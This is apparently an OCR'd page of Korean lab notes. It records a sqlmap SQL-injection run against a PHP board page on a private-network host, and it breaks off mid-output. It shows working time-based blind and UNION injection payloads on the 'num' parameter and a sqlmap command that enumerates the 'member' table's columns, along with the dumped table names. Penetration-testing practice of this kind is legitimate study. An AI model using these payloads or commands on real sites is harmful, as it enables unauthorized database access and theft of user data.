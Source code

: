 ```
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=kj6d798u46e...36cefrgae5'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:40:43] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:40:43] [INFO] fetching tables for database: 'WebTest'
[14:40:43] [WARNING] reflective value(s) found and filtering out
[14:40:43] [INFO] retrieved: 'board'
[14:40:43] [INFO] retrieved: 'member'
Database: WebTest                                                                             
[2 tables]
+--------+
| member |
| board  |
+--------+

[14:40:43] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     

[*] ending @ 14:40:43 /2020-10-22/

```

##### Column 명 확인

member 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -T "member" --columns

```

       ___
       __H__                                                                                   
 ___ ___[.]_____ ___ ___  {1.4.9#stable}                                                       
|_ -| . [)]     | .'| . |                                                                      
|___|_  [.]_|_|_|__,|  _|                                                                      
      |_|V...       |_|   http://sqlmap.org                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:45:03 /2020-10-22/

[14:45:03] [INFO] resuming back-end DBMS 'mysql' 
[14:45:03] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=91v25j3k3vm...2849gun936'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: num (GET)
    Type: time-based blind
```